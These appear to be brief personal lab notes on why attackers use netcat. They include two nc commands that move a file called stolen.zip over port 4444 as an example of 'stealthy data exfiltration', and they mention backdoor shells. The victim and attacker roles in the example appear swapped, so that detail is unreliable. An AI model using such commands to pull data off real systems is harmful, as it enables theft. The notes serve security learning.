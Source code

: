 

### ============>> End Of Netcat



### Why hacke use netcat:
Hackers use netcat (nc) due to its versatility, simplicity, and powerful networking capabilities, which can be leveraged for both legitimate and malicious purposes.
- Port Scanning (Reconnaissance)
- File Transfer (Stealthy Data Exfiltration) Like:
   - Victim machine (receive):
  ````
  nc -l -p 4444 > stolen.zip
  ````
   - Attacker machine (send):
  ````
   nc victimIP 4444 < stolen.zip
  ````
- Backdoor Access (Shells)


### Creditable:
1. https://www.youtube.com/watch?v=KlzSBk7VMss&t=35s
2. https://www.youtube.com/watch?v=9g17KWZHWc0


### Practice in LAB BY: Nin Kanong(k4n0ng)
#### Date: 31/Aug/2025
